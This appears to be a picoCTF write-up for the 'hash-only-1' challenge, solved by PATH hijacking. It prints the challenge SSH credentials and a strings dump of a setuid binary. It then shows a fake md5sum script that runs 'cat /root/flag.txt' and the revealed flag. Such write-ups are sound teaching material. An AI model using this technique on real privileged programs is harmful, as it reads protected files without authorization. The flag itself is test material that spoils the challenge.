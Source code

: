 # hash-only-1


## Challenge Category - Binary Exploitation


### Challenge Description

Here is a binary that has enough privilege to read the content of the flag file but will only let you know its hash. If only it could just give you the actual content!
Connect using ssh ctf-player@shape-facility.picoctf.net -p 51822 with the password, a15d25e1 and run the binary named "flaghasher".
You can get a copy of the binary if you wish: scp -P 51822 ctf-player@shape-facility.picoctf.net:~/flaghasher 

### Solution

I connected the program with the given password and entered the password and ran the flagslasher command as mentioned and it showed something like this (after running the string command)


```bash

strings: 'flagslagsher': No such file
ctf-player@pico-chall$ strings flaghasher
/lib64/ld-linux-x86-64.so.2
z`+Ep
'0x${
libstdc++.so.6
__gmon_start__
_ITM_deregisterTMCloneTable
_ITM_registerTMCloneTable
_ZNSolsEi
_ZNSaIcED1Ev
_ZSt4endlIcSt11char_traitsIcEERSt13basic_ostreamIT_T0_ES6_
_ZNSt7__cxx1112basic_stringIcSt11char_traitsIcESaIcEEC1EPKcRKS3_
_ZNSt8ios_base4InitD1Ev
_ZNSolsEPFRSoS_E
_ZSt4cerr
__gxx_personality_v0
_ZNSaIcEC1Ev
_ZNKSt7__cxx1112basic_stringIcSt11char_traitsIcESaIcEE5c_strEv
_ZStlsISt11char_traitsIcEERSt13basic_ostreamIcT_ES5_PKc
_ZNSt8ios_base4InitC1Ev
_ZNSt7__cxx1112basic_stringIcSt11char_traitsIcESaIcEED1Ev
_ZSt4cout
libgcc_s.so.1
_Unwind_Resume
libc.so.6
setuid
__stack_chk_fail
__cxa_atexit
system
sleep
__cxa_finalize
setgid
__libc_start_main
GCC_3.0
GLIBC_2.4
GLIBC_2.2.5
CXXABI_1.3
GLIBCXX_3.4
GLIBCXX_3.4.21
u+UH
[]A\A]A^A_
Computing the MD5 hash of /root/flag.txt....
/bin/bash -c 'md5sum /root/flag.txt'
Error: system() call returned non-zero value:
:*3$"
zPLR
GCC: (Ubuntu 9.4.0-1ubuntu1~20.04.2) 9.4.0
crtstuff.c
deregister_tm_clones
__do_global_dtors_aux
completed.8061
__do_global_dtors_aux_fini_array_entry
frame_dummy
__frame_dummy_init_array_entry
src.cpp
_ZStL19piecewise_construct
_ZStL8__ioinit
_Z41__static_initialization_and_destruction_0ii
_GLOBAL__sub_I_main
__FRAME_END__
__GNU_EH_FRAME_HDR
_DYNAMIC
__init_array_end
__init_array_start
_GLOBAL_OFFSET_TABLE_
_edata
_IO_stdin_used
_ZNKSt7__cxx1112basic_stringIcSt11char_traitsIcESaIcEE5c_strEv@@GLIBCXX_3.4.21
__cxa_finalize@@GLIBC_2.2.5
_ZSt4endlIcSt11char_traitsIcEERSt13basic_ostreamIT_T0_ES6_@@GLIBCXX_3.4
__dso_handle
_ZNSt7__cxx1112basic_stringIcSt11char_traitsIcESaIcEED1Ev@@GLIBCXX_3.4.21
DW.ref.__gxx_personality_v0
sleep@@GLIBC_2.2.5
system@@GLIBC_2.2.5
__cxa_atexit@@GLIBC_2.2.5
_ZStlsISt11char_traitsIcEERSt13basic_ostreamIcT_ES5_PKc@@GLIBCXX_3.4
_ZNSolsEPFRSoS_E@@GLIBCXX_3.4
_ZNSaIcED1Ev@@GLIBCXX_3.4
__stack_chk_fail@@GLIBC_2.4
__TMC_END__
_ZSt4cout@@GLIBCXX_3.4
_ZNSt7__cxx1112basic_stringIcSt11char_traitsIcESaIcEEC1EPKcRKS3_@@GLIBCXX_3.4.21
__data_start
__bss_start
_ZNSt8ios_base4InitC1Ev@@GLIBCXX_3.4
__libc_csu_init
__gxx_personality_v0@@CXXABI_1.3
_ZNSolsEi@@GLIBCXX_3.4
_ITM_deregisterTMCloneTable
_Unwind_Resume@@GCC_3.0
_ZNSaIcEC1Ev@@GLIBCXX_3.4
setgid@@GLIBC_2.2.5
__libc_csu_fini
__libc_start_main@@GLIBC_2.2.5
__gmon_start__
setuid@@GLIBC_2.2.5
_ITM_registerTMCloneTable
_ZSt4cerr@@GLIBCXX_3.4
_ZNSt8ios_base4InitD1Ev@@GLIBCXX_3.4
.symtab
.strtab
.shstrtab
.interp
.note.gnu.property
.note.gnu.build-id
.note.ABI-tag
.gnu.hash
.dynsym
.dynstr
.gnu.version
.gnu.version_r
.rela.dyn
.rela.plt
.init
.plt.got
.plt.sec
.text
.fini
.rodata
.eh_frame_hdr
.eh_frame
.gcc_except_table
.init_array
.fini_array
.dynamic
.data
.bss
.comment
ctf-player@pico-chall$
```
I ran the strings command so i could see how the binary works

I tried the ```md5sum /root/flag.txt ``` command but it said "Permission Denied" . It was now obvious that i have to manipulate the mdsum command to make it
print the contents of the flag.txt file , I looked around ways on the internet on how to bypass it and i found a way to trick it to use whatever and however i want
by modifying `PATH` Environment variable , for that I created a custom script named `md5sum` and made it executable 


```bash
.comment
ctf-player@pico-chall$ md5sum /root/flag.txt
md5sum: /root/flag.txt: Permission denied
ctf-player@pico-chall$ mkdir ~/fakebin
ctf-player@pico-chall$ nano ~/fakebin/md5sum
-bash: nano: command not found
ctf-player@pico-chall$ vi ~/fakebin/md5sum
-bash: vi: command not found
ctf-player@pico-chall$ vi ~/fakebin/md5sum
-bash: vi: command not found
ctf-player@pico-chall$ echo -e '#!/bin/bash\ncat /root/flag.txt' > ~/fakebin/md5sum
ctf-player@pico-chall$ chmod +x ~/fakebin/md5sum

```
Then I ran the binary after making sure the file runs on this PATH only by using the export PATH command and I got the flag

```bash

ctf-player@pico-chall$ ./flaghasher
Computing the MD5 hash of /root/flag.txt....

picoCTF{sy5teM_b!n@riEs_4r3_5c@red_0f_yoU_9722baa4}ctf-player@pico-chall$ Connection to shape-facility.picoctf.net closed by remote host.
Connection to shape-facility.picoctf.net closed.

```

Hence Solved xd

